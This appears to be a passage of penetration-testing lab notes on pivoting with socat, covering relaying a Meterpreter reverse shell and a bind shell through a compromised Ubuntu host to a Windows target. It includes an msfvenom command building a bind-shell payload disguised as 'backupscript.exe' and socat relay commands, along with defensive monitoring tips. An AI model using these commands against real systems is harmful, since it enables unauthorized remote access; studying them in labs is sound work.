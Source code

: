 **Key Takeaways**:
- **Socat Redirection**: Uses `socat TCP4-LISTEN:<port>,fork TCP4:<attack_host>:<port>` to relay traffic from the pivot host to the attack host.
- **Reverse Shell**: A Windows Meterpreter payload (`reverse_https`) connects to the pivot host’s `socat` listener, which forwards the connection to the attack host.
- **Metasploit Handler**: Configures a `multi/handler` with `reverse_https` to catch the redirected session.
- **Advantages**:
  - Lightweight and independent of SSH or Meterpreter.
  - Simple setup for redirecting specific ports.
- **Workflow**:
  - Set up `socat` on the pivot host.
  - Generate and deploy a payload targeting the pivot host’s `socat` port.
  - Start a Metasploit listener to receive the redirected shell.

**Security Tips**:
- Monitor pivot hosts for `socat` processes or unusual port listeners (e.g., 8080).
- Restrict execution of unauthorized binaries (e.g., `backupscript.exe`) on Windows hosts.
- Block outbound connections from pivot hosts to external IPs (e.g., 10.10.14.18:80).
- Use network segmentation to limit pivot host access to internal networks.
- Audit network traffic for unexpected HTTPS connections from pivot hosts.

**Limitations**:
- Requires `socat` to be installed on the pivot host (may need manual installation).
- Pivot host must allow binding to the specified port (e.g., 8080).
- Relies on the Windows target reaching the pivot host’s `socat` listener.
- HTTPS payloads may be detected by advanced network monitoring.

### Notes on Socat Redirection with a Bind Shell

**Overview**:
- Focuses on using `socat` to redirect traffic to a bind shell on a Windows target (e.g., 172.16.5.19) through a compromised Ubuntu pivot host (e.g., 10.129.282.64), allowing the attack host (e.g., 10.10.14.18) to connect to the target’s shell without direct network access.

**1. Bind Shell with Socat Redirection**:
- **Definition**: A bind shell listens on a specific port on the target host, and `socat` redirects connections from the pivot host to this port, enabling the attack host to access the shell.
- **Use Case**: Useful when the Windows target can only be reached via the pivot host due to network restrictions (e.g., NAT or firewalls).
- **Key Insight**: `socat` acts as a relay, forwarding connections from the pivot host to the bind shell on the Windows target, bypassing direct connectivity requirements.

**2. Scenario Setup**:
- **Attack Host**: 10.10.14.18, running a Metasploit multi/handler to connect to the bind shell.
- **Pivot Host**: Ubuntu server (10.129.282.64), running `socat` to redirect traffic.
- **Target**: Windows host (172.16.5.19) in the pivot’s internal network, running a bind shell payload.
- **Goal**: Execute a bind shell payload on the Windows target, use `socat` on the pivot host to redirect connections, and establish a Meterpreter session from the attack host.

**3. Steps to Execute Socat Redirection with Bind Shell**:
- **Step 1: Generate Windows Bind Shell Payload**:
  - Command:
    - `msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=8443 -f exe > backupscript.exe`
    - Creates a bind TCP Meterpreter payload (`backupscript.exe`) that listens on port 8443 on the Windows target.
    - Payload size: 499 bytes, EXE file: 7168 bytes.
- **Step 2: Transfer Payload to Windows Target**:
  - Transfer `backupscript.exe` to the Windows host (172.16.5.19) using previous techniques (e.g., SMB, HTTP, or pivot host relay).
  - Execute the payload to start the bind shell listener on 172.16.5.19:8443.
- **Step 3: Start Socat on Pivot Host**:
  - Command:
    - `socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443`